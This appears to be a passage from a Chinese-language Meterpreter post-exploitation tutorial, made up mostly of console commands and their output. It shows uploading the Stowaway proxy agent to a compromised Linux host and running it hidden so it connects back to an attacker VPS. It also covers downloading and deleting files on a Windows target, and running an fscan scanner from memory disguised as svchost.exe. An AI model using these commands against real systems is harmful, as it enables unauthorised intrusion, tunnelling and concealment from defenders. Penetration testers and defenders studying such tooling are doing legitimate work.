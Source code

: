 上传文件：

```console
meterpreter > upload /Stowaway_linux_x64_agent /home/neo4j
[*] Uploading  : /Stowaway_linux_x64_agent -> /home/neo4j/Stowaway_linux_x64_agent
[*] Uploaded -1.00 B of 1.43 MiB (0.0%): /Stowaway_linux_x64_agent -> /home/neo4j/Stowaway_linux_x64_agent
[*] Completed  : /Stowaway_linux_x64_agent -> /home/neo4j/Stowaway_linux_x64_agent
meterpreter >
```

下载文件：

```console
meterpreter > download "C:\\test.txt" /home/kali/Desktop/
[*] Downloading: C:\test.txt -> /home/kali/Desktop/test.txt
[*] Downloaded 13.00 B of 13.00 B (100.0%): C:\test.txt -> /home/kali/Desktop/test.txt
[*] Completed  : C:\test.txt -> /home/kali/Desktop/test.txt
meterpreter >
```

查看和删除文件：

```console
meterpreter > cat C:\\test.txt
test_file_1
meterpreter > del C:\\test.txt
meterpreter > cat C:\\test.txt
[-] stdapi_fs_stat: Operation failed: The system cannot find the file specified.
meterpreter >
```

### 命令执行

命令执行：

```console
meterpreter > execute -H -f chmod -a "777 /home/neo4j/Stowaway_linux_x64_agent"
Process 6531 created.
meterpreter > execute -H -f nohup -a "/home/neo4j/Stowaway_linux_x64_agent -c [vps_ip]:[vps_port] -s [conn_passwd] >/dev/null 2>&1 &"
Process 7984 created.
meterpreter >
```

| 参数                                                                              | 简述                                                                                              |
| --------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------- |
| -f                                                                                | 要运行的可执行命令                                                                                |
| -a                                                                                | 要传递给该命令的参数                                                                              |
| -H                                                                                | 创建隐藏的进程                                                                                    |
| -i                                                                                | 创建进程后与其交互                                                                                |
| -c                                                                                | 通道化 I/O（交互需要）。与 channel 命令一起使用，无需切换到单独的命令行界面，即可方便的查看输出。 |
| -m                                                                                | 支持直接从内存中执行攻击端的可执行文件                                                            |
| -d                                                                                | 在目标主机执行时显示的进程名称（用于伪装进程）                                                    |
| meterpreter > execute -H -m -d svchost.exe -f /home/kali/fscan64.exe -a "args..." |                                                                                                   |
